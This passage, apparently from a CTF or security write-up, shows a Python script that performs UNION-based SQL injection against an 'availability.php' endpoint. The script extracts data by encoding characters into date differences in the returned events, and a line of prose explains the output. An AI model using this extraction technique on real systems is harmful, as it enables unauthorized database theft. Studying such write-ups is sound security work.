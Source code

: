 ``` python

    unions.append(f'union select 1,{query_time},{payload},1 {fr}')
    index += fetch_per_union
    query_time += 86400

  payload = " ".join(unions)
  print(payload)
  response = requests.get(f'{host}/availability.php?id=12345%20{encode(payload)}&start_time={start_time}&end_time={end_time}')
  if not response.ok:
    print('error')
    break

  data = json.loads(response.text)
  print(data)
  is_finished = False
  for item in data['events']:
    diff = to_ts(item['end']) - to_ts(item['start'])
    diff = int(diff/86400)
    is_finished = False
    if diff == 0:
      is_finished = True
      break

    count = 0
    while diff > 0:
      num = diff % 128
      if num == 0:
        is_finished = True
        break
      count+=1
      result += chr(num)
      diff = int((diff - num) / 128)

    if count != fetch_per_union:
      is_finished = True
      break

    if is_finished:
      break
    print("current:", result)

  if is_finished:
    break

print("result:", result)
print(f"time: {time.time() - start}s")
```

The execution result will look like this, and you can see that each data's end carries 3 characters of information:
